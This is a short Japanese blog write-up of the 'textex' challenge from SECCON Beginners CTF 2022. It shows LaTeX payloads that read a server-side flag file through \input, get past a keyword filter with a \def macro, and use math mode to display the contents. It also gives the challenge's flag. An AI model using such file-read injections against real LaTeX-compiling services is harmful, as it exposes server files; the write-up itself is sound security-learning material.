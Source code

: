 ```yaml
---
title: "SECCON Beginners CTF 2022 Writeup"
date: 2022-06-05T00:00:00+09:00
draft: false
---
```


こんにちは、[がーと](https://twitter.com/gaato__)です。今回忙しかったのですが片手間で SECCON Beginners CTF 2022 にチーム Hacklava として参加し、1 問だけ解いたので解法をメモっておきます。

## textex

実は私も Web 上で LaTeX をコンパイルするサービスを運用していて、この脆弱性も経験していたので正直余裕でした。

Dockerfile とディレクトリ構造を見て ./flag を LaTeX の中から読み込めばいいということが分かったのでまず思いついたのが `\input` です。ということでまず思いつくのは

```tex
\documentclass{article}
\begin{document}

\input{flag}

\end{document}
```

ですが `app.py` を読んでみると `flag` を空文字列に置換しているのでこれは ERROR です。そこで `\def` を使って

```tex
\documentclass{article}
\def\hoge{g}
\begin{document}

\input{fla\hoge}

\end{document}
```

としてみても ERROR。
`\input` は読み込んだ文字列をそのまま LaTeX のコードとして解釈するのですが、flag に _ （アンダースコア）が含まれているとテキストモードではエラーが出るのでそのエラーかと思いました。
そこで数式モードに入れてやれば _ の後の文字が下付き文字として解釈されるので出るのではと思い、

```tex
\documentclass{article}
\def\hoge{g}
\begin{document}

$$\input{fla\hoge}$$

\end{document}
```

としてみると

![](/img/ctf4b2022/textex.png)

が出てきて LaTeX では {} はブロックとして解釈され消えるのと、 _ の後の文字が下付き文字になることを考慮すると flag は `ctf4b{15_73x_pr0n0unc3d_ch0u?}` ということが分かります。
